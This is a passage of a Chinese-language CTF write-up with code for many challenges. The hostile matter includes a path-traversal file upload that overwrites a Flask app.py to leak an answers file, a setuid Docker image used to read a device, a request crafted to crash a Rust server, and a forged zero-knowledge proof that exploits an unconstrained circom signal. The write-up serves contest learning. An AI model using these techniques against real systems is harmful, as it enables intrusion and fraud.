    while ((c = fgetc(f)) != EOF)
        putchar(c);
    fclose(f);
    return 0;
}
```

```Dockerfile
FROM busybox
COPY t /t
RUN chmod u+s /t
```

进入环境 `sudo docker image load` 后运行里面编译好的 `t` 即可：  
`sudo docker run --rm -u 1000:1000 --device=/dev/vdb:/dev/vdb {image_name} /t`

**`flag{dONT_1OAD_uNTRusT3D_1ma6e_0f86fac510_plz!}`**


## 看不见的彼方：交换空间

> 不枉我当 CS:APP 的 TA

阅读一遍题目，发现这不就是 `proxylab` 吗？立马拿出了我 TA 时候的代码开始手搓服务器。

### 小菜一碟

思路很简单，让 Alice 当 server 在本地监听一个端口，然后让 Bob 当 client 去建立一个 socket，这样两边就可以传输数据了。  
因为文件的大小是一样的，所以可以每轮互相传 1M 的数据，收到后用 `lseek()` 把 `fd` 的 offset 调回块的开头覆盖写入即可。  
Client 这里有个小坑是不知道这两个谁先运行，所以可能 client 先起来了但是 server 还没开始 listen。不过只要让 client 连接不上的时候 sleep 一会再试几次就行了。

**Alice (server)**

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>
#include <errno.h>

#define PORT 12345
#define BLOCK_SIZE 1048576 // 1 MiB

ssize_t readn(int fd, char *buf, size_t n)
{
    size_t nleft = n;
    ssize_t nread;
    while (nleft > 0)
    {
        if ((nread = read(fd, buf, nleft)) < 0)
        {
            if (errno == EINTR)
                continue;
            return -1;
        }
        else if (nread == 0)
            break;
        nleft -= (size_t)nread;
        buf += nread;
    }
    return (ssize_t)(n - nleft);
}

ssize_t writen(int fd, char *buf, size_t n)
{
    size_t nleft = n;
    ssize_t nwritten;
    while (nleft > 0)
    {
        if ((nwritten = write(fd, buf, nleft)) < 0)
        {
            if (errno == EINTR)
                continue;
            return -1;
        }
        nleft -= (size_t)nwritten;
        buf += nwritten;
    }
    return (ssize_t)n;
}

int main()
{
    int server_fd, new_socket;
    struct sockaddr_in address;
    socklen_t addrlen = sizeof(address);
    char buffer[BLOCK_SIZE];
    int opt = 1;

    int file = open("/space/file", O_RDWR);
    if (file < 0)
    {
        perror("failed to open file");
        exit(EXIT_FAILURE);
    }

    // Create socket file descriptor (IPv4, TCP)
    if ((server_fd = socket(AF_INET, SOCK_STREAM, 0)) == 0)
    {
        perror("socket failed");
        exit(EXIT_FAILURE);
    }

    // Attach socket to the port (optional, but useful to reuse the port)
    if (setsockopt(server_fd, SOL_SOCKET, SO_REUSEADDR, &opt, sizeof(opt)))
    {
        perror("setsockopt");
        close(server_fd);
        exit(EXIT_FAILURE);
    }

    // set address and port
    address.sin_family = AF_INET;
    address.sin_addr.s_addr = INADDR_ANY;
    address.sin_port = htons(PORT);

    if (bind(server_fd, (struct sockaddr *)&address, sizeof(address)) < 0)
    {
        perror("failed to bind");
        close(server_fd);
        close(file);
        exit(EXIT_FAILURE);
    }

    if (listen(server_fd, 1) < 0)
    {
        perror("failed to listen");
        close(server_fd);
        close(file);
        exit(EXIT_FAILURE);
    }

    if ((new_socket = accept(server_fd, (struct sockaddr *)&address, &addrlen)) < 0)
    {
        perror("failed to accept connection");
        close(server_fd);
        close(file);
        exit(EXIT_FAILURE);
    }

    for (int block = 0; block < 128; ++block)
    {
        lseek(file, block * BLOCK_SIZE, SEEK_SET);
        if (readn(file, buffer, BLOCK_SIZE) <= 0)
        {
            perror("failed to read from file");
            close(new_socket);
            close(server_fd);
            close(file);
            exit(EXIT_FAILURE);
        }

        if (writen(new_socket, buffer, BLOCK_SIZE) < 0)
        {
            perror("failed to write to socket");
            close(new_socket);
            close(server_fd);
            close(file);
            exit(EXIT_FAILURE);
        }

        lseek(file, block * BLOCK_SIZE, SEEK_SET);
        if (readn(new_socket, buffer, BLOCK_SIZE) <= 0)
        {
            perror("failed to read from socket");
            close(new_socket);
            close(server_fd);
            close(file);
            exit(EXIT_FAILURE);
        }

        if (writen(file, buffer, BLOCK_SIZE) < 0)
        {
            perror("failed to write to file");
            close(new_socket);
            close(server_fd);
            close(file);
            exit(EXIT_FAILURE);
        }
    }

    close(new_socket);
    close(server_fd);
    close(file);
    return 0;
}
```

**Bob (client)**

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <string.h>
#include <errno.h>

#define PORT 12345
#define BLOCK_SIZE 1048576 // 1 MiB
#define SERVER_IP "127.0.0.1"

// 和上面一样，为了节省空间就不写了
ssize_t readn(int fd, char *buf, size_t n);
ssize_t writen(int fd, char *buf, size_t n);

int main()
{
    int sock = 0;
    struct sockaddr_in serv_addr;
    char buffer[BLOCK_SIZE];

    int file = open("/space/file", O_RDWR);
    if (file < 0)
    {
        perror("failed to open file");
        exit(EXIT_FAILURE);
    }

    // Create socket file descriptor (IPv4, TCP)
    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0)
    {
        perror("Socket creation error");
        exit(EXIT_FAILURE);
    }

    memset(&serv_addr, '0', sizeof(serv_addr));

    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(PORT);

    // Convert IPv4 address from text to binary form
    if (inet_pton(AF_INET, SERVER_IP, &serv_addr.sin_addr) <= 0)
    {
        perror("Invalid address/ Address not supported");
        close(sock);
        exit(EXIT_FAILURE);
    }

    int n = 0;
    while (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0)
    {
        if (n++ > 10)
        {
            perror("failed to connect");
            close(sock);
            close(file);
            exit(EXIT_FAILURE);
        }
        sleep(1);
    }

    // 这段传输的逻辑也和上面一模一样的
    for (int block = 0; block < 128; ++block);

    close(sock);
    close(file);
    return 0;
}
```

**`flag{just A p1ece 0f cake_a181ff24c2}`**

### 捉襟见肘

这下不能直接在同一个文件里读写了，怎么办呢？  
我们可以直接在两边先把所有的内容都一股脑读进内存里，这样在内存里交换就可以了。  
但是这样要求我们读文件的时候要边读边删，搜索了一下发现 `ftruncate()` 可以把文件的末尾删掉。这样我们可以先建一个 `char *buffer[128]` 的数组，之后按照逆序读文件里的块。每读一个块之前 `malloc` 对应的内存，读完之后再把文件里最后一个块删掉，这样内存占用整体就只会多出 1MB。  
两边都读进来之后就可以用第一问的做法交换数据，再用和上面的流程相反的方法把数据写到对应的文件里即可。

**Alice (server)**  
这里因为直接抄了第一问的代码导致 error handling 乱成一坨，根本不知道有没有好好释放资源。好孩子可千万不要学习这种码风(x)

```c
int main()
{
    int server_fd, new_socket;
    struct sockaddr_in address;
    socklen_t addrlen = sizeof(address);
    char *buffer[128];
    int opt = 1;

    int file = open("/space/file", O_RDWR);
    if (file < 0)
    {
        perror("failed to open file");
        exit(EXIT_FAILURE);
    }
    for (int i = 127; i >= 0; i--)
    {
        buffer[i] = malloc(BLOCK_SIZE);
        if (buffer[i] == NULL)
        {
            perror("failed to allocate buffer");
            close(file);
            exit(EXIT_FAILURE);
        }
        lseek(file, i * BLOCK_SIZE, SEEK_SET);
        if (readn(file, buffer[i], BLOCK_SIZE) <= 0)
        {
            perror("failed to read from file");
            close(file);
            exit(EXIT_FAILURE);
        }
        if (ftruncate(file, i * BLOCK_SIZE) < 0)
        {
            perror("failed to truncate file");
            close(file);
            exit(EXIT_FAILURE);
        }
    }
    close(file);

    int file1 = open("/space/file1", O_WRONLY | O_CREAT);
    if (file1 < 0)
    {
        perror("failed to open file1");
        exit(EXIT_FAILURE);
    }

    int file2 = open("/space/file2", O_WRONLY | O_CREAT);
    if (file2 < 0)
    {
        perror("failed to open file2");
        exit(EXIT_FAILURE);
    }

    // Create socket file descriptor (IPv4, TCP)
    if ((server_fd = socket(AF_INET, SOCK_STREAM, 0)) == 0)
    {
        perror("socket failed");
        exit(EXIT_FAILURE);
    }

    // Attach socket to the port (optional, but useful to reuse the port)
    if (setsockopt(server_fd, SOL_SOCKET, SO_REUSEADDR, &opt, sizeof(opt)))
    {
        perror("setsockopt");
        close(server_fd);
        exit(EXIT_FAILURE);
    }

    // set address and port
    address.sin_family = AF_INET;
    address.sin_addr.s_addr = INADDR_ANY;
    address.sin_port = htons(PORT);

    if (bind(server_fd, (struct sockaddr *)&address, sizeof(address)) < 0)
    {
        perror("failed to bind");
        close(server_fd);
        close(file1);
        close(file2);
        exit(EXIT_FAILURE);
    }

    if (listen(server_fd, 1) < 0)
    {
        perror("failed to listen");
        close(server_fd);
        close(file1);
        close(file2);
        exit(EXIT_FAILURE);
    }

    if ((new_socket = accept(server_fd, (struct sockaddr *)&address, &addrlen)) < 0)
    {
        perror("failed to accept connection");
        close(server_fd);
        close(file1);
        close(file2);
        exit(EXIT_FAILURE);
    }

    for (int block = 0; block < 128; ++block)
    {
        if (writen(new_socket, buffer[block], BLOCK_SIZE) < 0)
        {
            perror("failed to write to socket");
            close(new_socket);
            close(server_fd);
            close(file1);
            close(file2);
            exit(EXIT_FAILURE);
        }

        if (block < 64)
        {
            lseek(file1, block * BLOCK_SIZE, SEEK_SET);
            if (readn(new_socket, buffer[block], BLOCK_SIZE) <= 0)
            {
                perror("failed to read from socket");
                close(new_socket);
                close(server_fd);
                close(file1);
                close(file2);
                exit(EXIT_FAILURE);
            }

            if (writen(file1, buffer[block], BLOCK_SIZE) < 0)
            {
                perror("failed to write to file");
                close(new_socket);
                close(server_fd);
                close(file1);
                close(file2);
                exit(EXIT_FAILURE);
            }

            free(buffer[block]);
        }
        else
        {
            lseek(file2, (block - 64) * BLOCK_SIZE, SEEK_SET);
            if (readn(new_socket, buffer[block], BLOCK_SIZE) <= 0)
            {
                perror("failed to read from socket");
                close(new_socket);
                close(server_fd);
                close(file1);
                close(file2);
                exit(EXIT_FAILURE);
            }

            if (writen(file2, buffer[block], BLOCK_SIZE) < 0)
            {
                perror("failed to write to file");
                close(new_socket);
                close(server_fd);
                close(file1);
                close(file2);
                exit(EXIT_FAILURE);
            }

            free(buffer[block]);
        }
    }

    close(new_socket);
    close(server_fd);
    close(file1);
    close(file2);
    return 0;
}
```

**Bob (client)**

```c
int main()
{
    int sock = 0;
    struct sockaddr_in serv_addr;
    char *buffer[128];

    int file1 = open("/space/file1", O_RDWR);
    if (file1 < 0)
    {
        perror("failed to open file1");
        exit(EXIT_FAILURE);
    }

    int file2 = open("/space/file2", O_RDWR);
    if (file2 < 0)
    {
        perror("failed to open file2");
        exit(EXIT_FAILURE);
    }

    for (int i = 63; i >= 0; --i)
    {
        buffer[i] = malloc(BLOCK_SIZE);
        if (buffer[i] == NULL)
        {
            perror("failed to allocate buffer");
            close(file1);
            close(file2);
            exit(EXIT_FAILURE);
        }
        lseek(file1, i * BLOCK_SIZE, SEEK_SET);
        if (readn(file1, buffer[i], BLOCK_SIZE) <= 0)
        {
            perror("failed to read from file1");
            close(file1);
            close(file2);
            exit(EXIT_FAILURE);
        }
        if (ftruncate(file1, i * BLOCK_SIZE) < 0)
        {
            perror("failed to truncate file1");
            close(file1);
            close(file2);
            exit(EXIT_FAILURE);
        }
    }
    close(file1);

    for (int i = 63; i >= 0; --i)
    {
        buffer[i + 64] = malloc(BLOCK_SIZE);
        if (buffer[i + 64] == NULL)
        {
            perror("failed to allocate buffer");
            close(file2);
            exit(EXIT_FAILURE);
        }
        lseek(file2, i * BLOCK_SIZE, SEEK_SET);
        if (readn(file2, buffer[i + 64], BLOCK_SIZE) <= 0)
        {
            perror("failed to read from file2");
            close(file2);
            exit(EXIT_FAILURE);
        }
        if (ftruncate(file2, i * BLOCK_SIZE) < 0)
        {
            perror("failed to truncate file2");
            close(file2);
            exit(EXIT_FAILURE);
        }
    }
    close(file2);

    // Create socket file descriptor (IPv4, TCP)
    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0)
    {
        perror("Socket creation error");
        exit(EXIT_FAILURE);
    }

    memset(&serv_addr, '0', sizeof(serv_addr));

    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(PORT);

    // Convert IPv4 address from text to binary form
    if (inet_pton(AF_INET, SERVER_IP, &serv_addr.sin_addr) <= 0)
    {
        perror("Invalid address/ Address not supported");
        close(sock);
        exit(EXIT_FAILURE);
    }

    int n = 0;
    while (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0)
    {
        if (n++ > 10)
        {
            perror("failed to connect");
            exit(EXIT_FAILURE);
        }
        sleep(1);
    }

    int file = open("/space/file", O_WRONLY | O_CREAT);
    if (file < 0)
    {
        perror("failed to open file");
        close(sock);
        exit(EXIT_FAILURE);
    }

    for (int block = 0; block < 128; ++block)
    {
        if (writen(sock, buffer[block], BLOCK_SIZE) <= 0)
        {
            perror("failed to write to socket");
            close(sock);
            close(file);
            exit(EXIT_FAILURE);
        }

        lseek(file, block * BLOCK_SIZE, SEEK_SET);
        if (readn(sock, buffer[block], BLOCK_SIZE) <= 0)
        {
            perror("failed to read from socket");
            close(sock);
            close(file);
            exit(EXIT_FAILURE);
        }

        if (writen(file, buffer[block], BLOCK_SIZE) <= 0)
        {
            perror("failed to write to file");
            close(sock);
            close(file);
            exit(EXIT_FAILURE);
        }

        free(buffer[block]);
    }

    close(sock);
    close(file);
    return 0;
}
```

**`flag{fa1I0catiIling_1NChains_15fun_3e0b510659}`**

## 链上转账助手

> 关于我对区块链一窍不通但是用 o1-preview 当外挂骗了 250 分这件事

这题[全拿 ChatGPT 写的](https://chatgpt.com/share/672ff67c-b524-800d-b033-4d09c91a93d5)。我真的一点没看懂，感觉区块链这块还是得补补课...

### 转账失败

~~我现在才意识到当时就是照抄了 `challenge1.sol` 就过了？？？~~

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract BatchTransfer {
    function batchTransfer(address payable[] calldata recipients, uint256[] calldata amounts) external payable {
        require(recipients.length == amounts.length, "Recipients and amounts length mismatch");

        uint256 totalAmount = 0;
        uint256 i;

        for (i = 0; i < amounts.length; i++) {
            totalAmount += amounts[i];
        }

        require(totalAmount == msg.value, "Incorrect total amount");

        for (i = 0; i < recipients.length; i++) {
            recipients[i].transfer(amounts[i]);
        }
    }
}
```

**`flag{Tr4nsf3r_T0_c0nTracT_MaY_R3v3rt_33c5d8b096}`**

### 转账又失败

~~对，对吗？哦对的对的，哦不对不对~~

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^ 0.8.0;

contract GasGuzzler {
    fallback() external payable {
        // Consume gas in a loop
        for (uint256 i = 0; i < 1000000; i++) {
            // Do some computation to consume gas
            uint256 x = i * i;
        }
    }
}
```

**`flag{Ple4se_L1m1t_y0uR_GAS_HaHa_5963670813}`**


## 不太分布式的软总线

> 一个文件，让 VSCode 报了 800 个错

这题基本上（又是）[全拿 ChatGPT 写的](https://chatgpt.com/share/672ff232-7a80-800d-ac93-36de8b7abe5c)，我就配了点环境改了点语法错误。

### What DBus Gonna Do?

GPT 告诉我说写一个 shell script 里面用 `gdbus call` 就好了。

```sh
#!/bin/bash
gdbus call --system \
    --dest "cn.edu.ustc.lug.hack.FlagService" \
    --object-path "/cn/edu/ustc/lug/hack/FlagService" \
    --method "cn.edu.ustc.lug.hack.FlagService.GetFlag1" \
    "Please give me flag1"
```

**`flag{every_11nuxdeskT0pU5er_uSeDBUS_bUtn0NeknOwh0w_7ba2433f99}`**

### If I Could Be A File Descriptor

GPT 告诉我说写一个 C 代码里面先 `pipe()` 一个 `fd` 出来再用 `g_dbus_connection_call_with_unix_fd_list_sync()` 就行了，但是他参数列表没给对！  
我这里用 WSL 编译的时候老是报找不到 `g_unix_fd_list_new_from_array` 的错误，索性直接写个空声明算了。（就是因为这个 VS Code Intellisense 给我报了一万个错）

```c
#include <gio/gio.h>
#include <glib.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

#define SERVICE_NAME "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define INTERFACE_NAME "cn.edu.ustc.lug.hack.FlagService"
#define METHOD_NAME "GetFlag2"

GUnixFDList *
g_unix_fd_list_new_from_array(
    const gint *fds,
    gint n_fds);

int main(int argc, char *argv[])
{
    GError *error = NULL;
    GDBusConnection *connection;
    GMainLoop *loop;
    gint pipe_fds[2];
    gchar *flag2 = NULL;

    // Connect to the system bus
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (connection == NULL)
    {
        g_printerr("Failed to connect to system bus: %s\n", error->message);
        g_error_free(error);
        return 1;
    }

    // Create a pipe
    if (pipe(pipe_fds) == -1)
    {
        perror("pipe");
        return 1;
    }

    // Write the required message to the write end of the pipe
    const char *message = "Please give me flag2\n";
    ssize_t written = write(pipe_fds[1], message, strlen(message));
    if (written != (ssize_t)strlen(message))
    {
        perror("write");
        close(pipe_fds[0]);
        close(pipe_fds[1]);
        return 1;
    }

    // Close the write end after writing
    close(pipe_fds[1]);

    // Prepare the GUnixFDList with the read end of the pipe
    GUnixFDList *fd_list = g_unix_fd_list_new_from_array(pipe_fds, 1);
    gint fd_index = 0;

    // Prepare the parameters: a tuple containing the file descriptor index
    GVariant *parameters = g_variant_new("(h)", fd_index);

    // Make the synchronous D-Bus call with the FD list
    GUnixFDList *out_fd_list;
    GVariant *result = g_dbus_connection_call_with_unix_fd_list_sync(
        connection,
        SERVICE_NAME,           // bus name
        OBJECT_PATH,            // object path
        INTERFACE_NAME,         // interface name
        METHOD_NAME,            // method name
        parameters,             // parameters
        G_VARIANT_TYPE("(s)"),  // expected reply type
        G_DBUS_CALL_FLAGS_NONE, // no flags
        -1,                     // default timeout
        fd_list,                // FD list
        &out_fd_list,           // GPT 生成的时候没有给出参！害得我多调了5分钟(x)
        NULL,                   // cancellable
        &error);

    if (result == NULL)
    {
        g_printerr("D-Bus call failed: %s\n", error->message);
        g_error_free(error);
        g_object_unref(connection);
        close(pipe_fds[0]);
        return 1;
    }

    // Extract the flag2 from the result
    g_variant_get(result, "(&s)", &flag2);
    g_print("Flag2: %s\n", flag2);

    // Clean up
    g_variant_unref(result);
    g_object_unref(connection);
    close(pipe_fds[0]);

    return 0;
}
```

**`flag{n5tw0rk_TrAnSpaR5Ncy_d0n0t_11k5_Fd_db2e70a572}`**

### Comm Say Maybe

GPT 告诉我说...其实我也没看懂他说了啥，但是把代码贴上去编译完就过了）

```c
#define _GNU_SOURCE
#include <gio/gio.h>
#include <glib.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/prctl.h>

// Define D-Bus parameters
#define SERVICE_NAME "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define INTERFACE_NAME "cn.edu.ustc.lug.hack.FlagService"
#define METHOD_NAME "GetFlag3"

int main(int argc, char *argv[]) {
    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;
    gchar *flag3 = NULL;

    // Optional: Explicitly set the process name to "getflag3"
    // This step ensures that /proc/<pid>/comm contains "getflag3\n"
    if (prctl(PR_SET_NAME, "getflag3", 0, 0, 0) != 0) {
        perror("prctl");
        // Continue even if setting the name fails
    }

    // Connect to the system bus synchronously
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("Failed to connect to the system bus: %s\n", error->message);
        g_error_free(error);
        return EXIT_FAILURE;
    }

    // Call the D-Bus method "GetFlag3"
    result = g_dbus_connection_call_sync(
        connection,
        SERVICE_NAME,           // Destination
        OBJECT_PATH,            // Object path
        INTERFACE_NAME,         // Interface name
        METHOD_NAME,            // Method name
        NULL,                   // Parameters
        G_VARIANT_TYPE("(s)"),  // Expected reply type
        G_DBUS_CALL_FLAGS_NONE, // no flags
        -1,                     // Timeout (default)
        NULL,                   // Cancellable
        &error
    );

    if (result) {
        // Extract the string from the tuple
        g_variant_get(result, "(&s)", &flag3);
        g_print("Flag3: %s\n", flag3);
        g_variant_unref(result);
    } else {
        g_printerr("Error calling D-Bus method %s: %s\n", METHOD_NAME, error->message);
        g_error_free(error);
    }

    // Clean up
    g_object_unref(connection);

    return EXIT_SUCCESS;
}
```

**`flag{prprprprprCTL_15your_FRiEND_750584ce15}`**


## RISC-V：虎胆龙威

> HG 你给我带哪来了？这还是 IA-32 吗？

为什么 ICS 和 OS 都要教 IA-32 啊...不能与时俱进一点吗(?)

### 警告：易碎 / Fragility

按照题目要求每个地址只能读一次，问 ChatGPT 发现 RISC-V 有 32 个寄存器，那直接全读进来再在寄存器里展开一个 bubble sort 就行了。

这题[配环境](https://github.com/riscv-collab/riscv-gnu-toolchain/tree/master)花了我一整天(?) 开了个 AWS EC2 从睡觉开始 `make`，醒来发现还在跑...

**展开循环的 python**

```python
def block(p, i):
    label = f"L{p+1}_{i+1}"
    first = 10 + i
    second = 11 + i
    template = f"""    blt x{first}, x{second}, {label}
    addi x5, x{first}, 0
    addi x{first}, x{second}, 0
    addi x{second}, x5, 0
{label}:"""
    return template


for p in range(15):
    for i in range(15):
        print(block(p, i))
```

```assembly
.section .text
_start:
    li x5, 0xf80

    lw x10, 0(x5)          # x10 = MEM[x5 + 0]
    lw x11, 4(x5)          # x11 = MEM[x5 + 4]
    lw x12, 8(x5)          # x12 = MEM[x5 + 8]
    lw x13, 12(x5)         # x13 = MEM[x5 + 12]
    lw x14, 16(x5)         # x14 = MEM[x5 + 16]
    lw x15, 20(x5)         # x15 = MEM[x5 + 20]
    lw x16, 24(x5)         # x16 = MEM[x5 + 24]
    lw x17, 28(x5)         # x17 = MEM[x5 + 28]
    lw x18, 32(x5)         # x18 = MEM[x5 + 32]
    lw x19, 36(x5)         # x19 = MEM[x5 + 36]
    lw x20, 40(x5)         # x20 = MEM[x5 + 40]
    lw x21, 44(x5)         # x21 = MEM[x5 + 44]
    lw x22, 48(x5)         # x22 = MEM[x5 + 48]
    lw x23, 52(x5)         # x23 = MEM[x5 + 52]
    lw x24, 56(x5)         # x24 = MEM[x5 + 56]
    lw x25, 60(x5)         # x25 = MEM[x5 + 60]

# 循环插入在这里

    li x5, 0xfc0

    sw x10, 0(x5)         # MEM[x5 + 0] = x10
    sw x11, 4(x5)         # MEM[x5 + 4] = x11
    sw x12, 8(x5)         # MEM[x5 + 8] = x12
    sw x13, 12(x5)        # MEM[x5 + 12] = x13
    sw x14, 16(x5)        # MEM[x5 + 16] = x14
    sw x15, 20(x5)        # MEM[x5 + 20] = x15
    sw x16, 24(x5)        # MEM[x5 + 24] = x16
    sw x17, 28(x5)        # MEM[x5 + 28] = x17
    sw x18, 32(x5)        # MEM[x5 + 32] = x18
    sw x19, 36(x5)        # MEM[x5 + 36] = x19
    sw x20, 40(x5)        # MEM[x5 + 40] = x20
    sw x21, 44(x5)        # MEM[x5 + 44] = x21
    sw x22, 48(x5)        # MEM[x5 + 48] = x22
    sw x23, 52(x5)        # MEM[x5 + 52] = x23
    sw x24, 56(x5)        # MEM[x5 + 56] = x24
    sw x25, 60(x5)        # MEM[x5 + 60] = x25

_end:
	j _end
```

## 动画分享

> 比赛结束后拿着这段代码去问了一个在生产环境写了两年 Rust 的朋友，结果他一点问题都没看出来

### 只要不停下 HTTP 服务，响应就会不断延伸

[拷打了一会 ChatGPT](https://chatgpt.com/share/67303b8d-71a4-800d-89c4-30b8f0891dc1)，他告诉我如果用 multibyte character 当作文件名的话 `let file_path = &path[1..];` 会 panic。于是我们可以构建这样一个请求：

```sh
#!/bin/bash
echo -e "GET Ω HTTP/1.1\r\n\r\n" | nc localhost 8000
```

**`flag{wa1t_no0O0oooO_mY_b1azIngfA5t_raust_f11r5erVer_5311135c89}`**


## 关灯

> `MemoryError: Unable to allocate 9.95 TiB for an array with shape (3307949, 3307949) and data type bool`  
> ~~主唱太拼命了！~~

### Easy & Medium & Hard

搜索了一下 "Lights Out"，找到了一篇用 SageMath 写的[教程](https://www.sfu.ca/~jtmulhol/math302/puzzles-lo.html)。  
原理是每个输入位置对于输出位置的影响是确定的，所以输出是输入在 GF(2) 上面的线性组合。  
那么只要我们构建这个线性关系对应的 $\mathbb{R}^{n^3 \times n^3}$ 矩阵，对它“求逆”即可得到从输出到输入的反向映射。（实际上在 $n \geq 5$ 的时候这个矩阵就不是满秩的了，但因为我们根据生成的过程知道肯定有解，所以直接调用 `solve_right()` 即可）  
本来懒得配一个新的 SageMath 环境，想自己手搓一个高斯消元，结果写的代码到处漏风。正好为了整 RISC-V 已经开了一个 EC2 了，就干脆挪到那上面去用 SageMath 了。

```python
from sage.all import *
from pwn import *
import os

def lights_out(n):
    A = matrix(GF(2), n * n * n, n * n * n)
    for i in range(n):
        for j in range(n):
            for k in range(n):
                m = n * n * i + j * n + k * 1
                A[(m, m)] = 1
                if i > 0:
                    A[(m, m - n * n)] = 1
                if i < n - 1:
                    A[(m, m + n * n)] = 1
                if j > 0:
                    A[(m, m - n)] = 1
                if j < n - 1:
                    A[(m, m + n)] = 1
                if k > 0:
                    A[(m, m - 1)] = 1
                if k < n - 1:
                    A[(m, m + 1)] = 1
    return A

q = 3
if q == 1:
    l = 3
elif q == 2:
    l = 5
elif q == 3:
    l = 11
A = lights_out(l)

r = remote("202.38.93.141", 10098)
r.recvline()
r.sendline(os.environ["TOKEN"].encode())

r.recvuntil(b"(1~4): ")
r.sendline(str(q).encode())
s = r.recvline().decode().strip()
b = vector(GF(2), list(map(int, s)))

x = A.solve_right(b)
res = "".join(str(i) for i in x)
r.recvuntil(b": ")
r.sendline(res.encode())
r.interactive()
```

1. **`flag{bru7e_f0rce_1s_a1l_y0u_n3ed_e487e39c43}`**
2. **`flag{prun1ng_1s_u5eful_f493badcaf}`**
3. **`flag{lin3ar_alg3bra_1s_p0werful_d599861895}`**

(以及 Copilot 自动补全的两个 fake flag)

4. flag{g4uss_j0rdan_3liminat10n_1s_c00l_8d5f2d3b7e}
5. flag{g4lo1s_f13lds_4re_4w3s0me_7f4d6b4b0a}


## 禁止内卷

最开始想按照代码逻辑，枚举每一位看方差的改变值反推出原本的值。尝试后发现因为负分数会被转换成 0，所以并不能还原出每一位。

再读一遍源码发现了一个很经典的路径穿越漏洞：
```python
file = request.files['file']
filename = file.filename
filepath = os.path.join(UPLOAD_DIR, filename)
file.save(filepath)
```
只要我们上传的文件名里使用 `../` 就可以把文件保存到任意目录下。  
这有什么用呢？因为启动服务器的时候开了 ``--reload`，所以我们可以传一个新的代码文件上去让服务器自动加载。而其中的代码只要把 `answer.json` 的内容返回给我们就好了。

```python
import requests

addr = ""
file = """
from flask import Flask

app = Flask(__name__)


@app.route("/")
def index():
    with open("answers.json") as f:
        return f.read()
"""

requests.post(f"{addr}/submit",files={"file": ("../web/app.py", file)},)
response = requests.get(addr)
print("".join(chr(x + 65) for x in response.json()))
```

**`flag{uno!!!!_esrever_now_U_run_MY_c0de60c0c47c42}`**


## 哈希三碰撞

> 这是 binary 吗？

### 三碰撞之一

丢进 ida 之后发现把每个输入进行 `hex_to_int` 之后调库算了一个摘要。挂 `gdb` 运行了一下发现算的 SHA256。随便丢一个输入进去发现只复制比较了三个 SHA256 的最后 8 个字节，所以随机碰撞一下 SHA256 的后缀提交即可。

```python
from pwn import *
import hashlib
import random
from collections import defaultdict

d = defaultdict(list)
l = []
while True:
    x = random.getrandbits(64)
    hash = hashlib.sha256(x.to_bytes(8)).hexdigest()[-8:]
    d[hash].append(x)
    if len(d[hash]) > 2:
        l = d[hash]
        break

r = remote("202.38.93.141", 10096)
r.recvline()
r.sendline(os.environ["TOKEN"].encode())

r.recvuntil(b": ")
r.sendline(b"1")
for x in l:
    r.recvuntil(b":")
    r.sendline(hex(x)[2:].encode())
r.interactive()
```

**`flag{341642dbbbdb68f956937b3f32087b}`**


## 零知识数独

> 直到做完都没搞明白这题的 ZK 部分是怎么工作的

### 数独高手

没什么难度，随便找一个在线的[数独解题网站](https://www.sudoku-solutions.com/)，把题目输进去答案数出来就能拿到 flag 了。

**`flag{SUD0KU_M45T3R_You_Have_Shown_Y0ur_Know1edge_ac5207a9}`**

### ZK 高手

阅读了一遍 `snarkjs` 和 circom 的文档，发现提交一个证明需要运行这样一个命令
```sh
snarkjs groth16 fullprove input.json sudoku.wasm sudoku.zkey proof.json public.json
```
其中 `input.json` 应该包括 `sudoku.circom` 中 `Main()` 函数的所有输入，在本题就是 `unsolved_grid` 和 `solved_grid`。  
于是我们再次利用解题网站把最开始的题目和填完的数独编成一个 `{"unsolved_grid": [[...]], "solved_grid": [[...]]}` 的 json 文件，用以上的命令生成 `proof.json` 提交即可。

**`flag{you_are_a_5udoku_expert_and_pr0ved_your_kn0wledge_4de53b0b86}`**

### 无解之谜

开幕雷击，这个数独怎么看都没有解的吧kora

[让 ChatGPT 不断阅读 circom 源码](https://chatgpt.com/share/67305017-a890-800d-9140-a43e75703fc3)，他敏锐的发现了 `Main()` 中检查数字大于 0 的部分没有 "enforce constraint"
```js
gt_zero_signals[i][j] <-- (solved_grid[i][j] > 0);
```

一开始我还没有理解这有什么问题，于是继续搜索和 circom 有关的信息，之后找到了[这篇文章](https://sudoshreyansh.medium.com/understanding-constraints-in-circom-1749ae4c4515)。  
总结一下就是如果使用 `<--` 而不是 `<==` 来赋值的话，生成的 verifier 不会检查这次赋值是否成功。  
也就是说，如果我把这一行改成
```js
gt_zero_signals[i][j] <-- 1;
```
重新编译一个 `sudoku.wasm` 并用它来生成一个 `proof.json`，那么这个新的证明仍然能通过原本的 verifier 的检查。

那么在针对这个新的 `wasm` 的证明里，我们就可以完全无视每个数都需要大于 0 这个条件了。  
不过 `IsValidInput()` 这个检查还是存在的。阅读 `comparators.circom` 可以发现 `LessEqThan(4)` 限制了输入需要是一个 4 位二进制数，且 `x + (1<<4) - 9` 的第 5 位是 1，所以合法的输入范围是 $[-6, 9]$。  
